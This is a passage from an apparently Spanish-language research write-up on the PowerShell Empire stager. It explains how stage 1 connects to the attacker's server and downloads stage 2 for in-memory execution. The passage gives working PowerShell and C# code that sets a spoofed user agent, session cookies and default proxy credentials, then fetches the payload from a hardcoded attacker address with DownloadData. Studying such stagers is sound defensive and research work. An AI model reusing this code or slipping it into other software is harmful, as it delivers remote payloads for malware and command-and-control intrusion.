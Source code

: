 # Conexión al Servidor 

El siguiente punto que tenemos es el objeto **Web.Client**, lo usamos para comunicarnos con el servidor Empire que aloja la segunda etapa (stage 2).
 
Básicamente, la primera etapa (stage 1) es responsable de crear una conexión con la máquina atacante y ejecutar en la memoria la segunda parte (stage 2) (que generalmente es más grande). A veces se hace referencia como stage0 y stage1. Si desea saber más sobre la ejecución en etapas o stages de los malware puede consultar esta [documentación de Metasploit](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/).
 
El objeto **Web.Client** incluye todas las piezas para realizar la comunicación web. En caso de que el objetivo esté utilizando un proxy para comunicarse con otras redes, las propiedades **DefaultWebProxy** y **DefaultNetworkCredentials** se utilizan para proporcionar Autenticación y conexión a través del Servidor Proxy, si es necesario. No convertí la parte de proxy del código, no fue necesario para mi investigación, depende de usted convertirlo si lo necesita.

```
# PowerShell Create WebClient Object
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
# PowerShell Use Default Web Proxy if Enabled
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
// C# Create a WebClient Object
WebClient wc = new WebClient();
string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
wc.Headers["User-Agent"] = ua;
wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
```

Luego, debemos especificar la dirección del servidor, el puerto y la ubicación de destino, en nuestro caso esta es la URL completa http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. Después de eso, llamamos al método DownloadData de la clase Web.Client para guardar los datos en la variable $data. Si tienes curiosidad acerca de los datos con tenidos en esta $data (stage 2) generalmente se encuentra en /opt/Empire/data/agent/stagers/http.ps1.

```
# PoweShell Set Server Address and Download the data.
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t); # Download
 
// C# Set Server Address and Download the data.
string server = "http://192.168.6.119:8081";
string target = "/CWoNaJLBo/VTNeWw11212/";
byte[] data = wc.DownloadData(server + target); // Download
```
